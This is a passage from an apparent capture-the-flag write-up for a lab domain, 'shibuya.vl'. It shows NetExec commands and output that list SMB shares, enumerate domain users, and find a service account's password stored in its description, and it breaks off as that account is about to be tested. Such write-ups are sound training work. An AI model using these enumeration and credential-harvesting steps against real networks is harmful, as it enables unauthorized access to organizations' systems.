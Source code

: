 ```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
```
```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --shares
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
SMB         shibuya.vl      445    AWSJPDC0522      [*] Enumerated shares
SMB         shibuya.vl      445    AWSJPDC0522      Share           Permissions     Remark
SMB         shibuya.vl      445    AWSJPDC0522      -----           -----------     ------
SMB         shibuya.vl      445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         shibuya.vl      445    AWSJPDC0522      C$                              Default share
SMB         shibuya.vl      445    AWSJPDC0522      images$
SMB         shibuya.vl      445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         shibuya.vl      445    AWSJPDC0522      NETLOGON        READ            Logon server share
SMB         shibuya.vl      445    AWSJPDC0522      SYSVOL          READ            Logon server share
SMB         shibuya.vl      445    AWSJPDC0522      users           READ
```
## Password in description, first user

We don't have any ```WRITE``` rights, let's use ```--users``` to enumerate users :

```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --users
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
SMB         shibuya.vl      445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         shibuya.vl      445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain
SMB         shibuya.vl      445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         shibuya.vl      445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account
SMB         shibuya.vl      445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       [REDACTED]
SMB         shibuya.vl      445    AWSJPDC0522      Leon.Warren                   2025-02-16 10:23:34 0
SMB         shibuya.vl      445    AWSJPDC0522      Graeme.Kerr                   2025-02-16 10:23:34 0
...
```
If you want to put all users in a text file, you can do it with this command : 

```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --users | awk '/SMB/{print $5}' | grep -Ev '^-Username-|\[*\]' > users.txt
```
Ok but when we enumerate with ```--users```, it also returns every ```Description``` of each user and ```svc_autojoin``` have his password in his description, let's check his rights on the smb
